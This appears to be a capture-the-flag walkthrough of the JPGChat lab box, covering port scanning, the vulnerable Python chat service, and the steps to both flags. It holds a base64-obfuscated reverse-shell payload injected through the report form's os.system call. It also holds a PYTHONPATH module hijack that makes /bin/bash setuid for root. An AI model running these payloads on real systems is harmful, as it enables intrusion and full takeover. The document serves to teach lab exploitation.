






## TL;DR

In this challenge we find the source code on github, and exploit `OS Command Injection` to get reverse shell.

We escalate to root using sudo on `/opt/development/test_module.py`, and modifying `PYTHONPATH`, which is added in the `sudo` command.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `3000` with some strange service
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                                                
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                          
| ssh-hostkey:                                                                                                                                               
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBm
Kdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/Fd
LMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj                                                                                         
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9
ihB8=                                                                                                                                                        
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv                                                                           
3000/tcp open  ppp?    syn-ack ttl 62                                                                                                                        
| fingerprint-strings:                                                                                                                                       
|   GenericLines, NULL:                                                                                                                                      
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.95%I=7%D=12/11%Time=6939F4D0%P=x86_64-pc-linux-gnu%r(N
SF:ULL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x2
SF:0service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSA
SF:GE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(current
SF:ly\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x2
SF:0report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Ge
SF:nericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20
SF:this\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github
SF:\nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(
SF:currently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x
SF:20to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n
SF:");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploit OS Command Injection found inside the source code

I started investigating port `3000`:
```bash
┌──(agonen㉿kali)-[~/thm/JPGChat]
└─$ nc jpgchat.thm 3000 
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
kobi
your report:
hello
```



We can notice the report will be read by `Mozzie-jpg`, I googled and found the github repository [https://github.com/Mozzie-jpg/JPChat](https://github.com/Mozzie-jpg/JPChat)


And this is the source code:
```py
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

Okay, we can see it's vulnerable to `OS Command Injection`, so let's give this input:
```bash
1337; printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash 
```



and we got our reverse shell:



grab the user flag:
```bash
wes@ubuntu-xenial:~$ cat user.txt 
JPC{487030410a543503cbb59ece16178318}
```

### Privilege Escalation to Root using sudo on /opt/development/test_module.py

we can check for sudo permissions:
```bash
wes@ubuntu-xenial:~$ sudo -l                                                                                                           
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
wes@ubuntu-xenial:~$ cat /opt/development/test_module.py
```

as we can see, we can execute `/opt/development/test_module.py`..
Notice that the environment keeps the path from `PYTHONPATH`, which we control.

The file `/opt/development/test_module.py` isn't writable, however, we can see it imports the package `compare`.
```bash
wes@ubuntu-xenial:~$ cat /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

I'll create file `compare.py` with code that'll get executed when importing, and change the env variable `PYTHONPATH` to point into its location.
```bash
export PYTHONPATH=/tmp
```

This will be the code:
```py
import os

print(os.system('whoami'))
os.system('chmod u+s /bin/bash')
```



Now, we can spawn shell as root:
```bash
wes@ubuntu-xenial:/tmp$ bash -p
bash-4.3# cd /root
bash-4.3# cat root.txt 
JPC{665b7f2e59cf44763e5a7f070b081b0a}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```



and the root flag is:
```bash
JPC{665b7f2e59cf44763e5a7f070b081b0a}
```